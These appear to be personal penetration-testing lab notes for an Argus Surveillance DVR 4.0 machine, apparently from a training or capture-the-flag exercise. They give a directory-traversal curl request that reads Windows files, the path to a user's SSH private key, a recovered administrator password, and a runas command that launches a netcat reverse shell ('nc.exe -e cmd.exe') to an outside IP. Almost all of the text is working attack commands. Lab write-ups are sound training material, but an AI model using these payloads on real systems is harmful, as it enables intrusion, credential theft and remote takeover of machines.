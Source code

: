 _____

>[!INFO]
> IP=192.168.229.179


# Argus Surveillance DVR 4.0.0.0 - Directory Traversal
https://www.exploit-db.com/exploits/45296


```bash
curl "http://$IP:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

```

![[Pasted image 20240215112422.png]]

C:/Users/viewer/.ssh/id_rsa


# PrivEsc

# Argus Surveillance DVR 4.0 - Weak Password Encryption

https://www.exploit-db.com/exploits/50130

```cmd
runas /user:administrator "nc.exe -e cmd.exe 192.168.45.160 443"
```
`14WatchD0g$`


